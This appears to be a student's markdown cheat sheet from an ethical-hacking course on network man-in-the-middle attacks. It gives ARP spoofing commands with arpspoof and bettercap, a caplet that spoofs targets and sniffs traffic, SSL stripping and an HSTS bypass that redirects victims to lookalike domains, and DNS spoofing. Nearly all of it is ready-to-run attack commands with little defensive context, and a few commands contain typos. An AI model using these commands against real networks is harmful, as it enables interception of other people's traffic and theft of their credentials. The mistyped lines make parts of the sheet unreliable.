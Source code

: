﻿# Command Line - ARP Spoofing (Address Resolution Protocol)
## Only works for HTTP (not HTTPS)
##
`arp -a`

`arpspoof -i <interface> -t <clientIP> <gatewayIP>`
`arpspoof -i <interface> -t <gatewayIP> <clientIP>`

`echo 1 > /proc/sys/net/ipvw/ip_forward`

# Bettercap - Arp Spoofing

## Basic bettercap commands
`bettercap -iface <interface>`
	`help`
	`help net.probe`
	`net.probe on`
	`help`
	`net.show`
## Spoofing
	`help apr.spoof`
### Change value of options in modules
	`set <module.option> <value>`
### Set Fullduplex true
	`set arp.spoof.fullduplex true`
### Setting Targets
	`set arp.spoof.targets <target-ips>`
	`set arp.spoof.targets 10.0.2.3`
### Turn ARPSPOOF ON
	`set arp.spoof on`
### Spying on Network Devices
	`net.sniff on`
## Caplets = 'script'
	Copy commands into .cap extension file
`bettercap -iface eth0 -caplet <caplet-file>`
	`caplets.show`

### spoof.cap file
net.probe on
net.recon on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.171,...<other-ips>
arp.spoof on
set net.sniff.local true
net.sniff on

# Bypassing HTTPS
# SSLSTRIP - Downgrades HTTPS to HTTP
Replace hstshijack file from udemy in /usr/share/bettercap/caplets
`bettercap -iface eth0 -caplet spoof.cap`
	`hstshijack/hstshijack`

## Not all websites will work. Some use HSTS. It sticktly accepts HTTPS.

# Bypassing HSTS - PARTIAL SOLUTION
## Trick the browser into loading a different website. facebook.com --> facebok.corn

## Set different replacements/websites
`gedit /usr/share/bettercap/caplets/hstshijack/hstshijack.cap`
If victim goes to HSTS websites through another website that doesn't use HSTS

## DNS Spoofing
`service apache2 start`
`bettercap -iface eth0 -caplet spoof.cap`
	`set dns.spoof.all true`
	`set dns.spoof.domains zsecurity.org,*.zsecurity.org`
	`dns.spoof on`










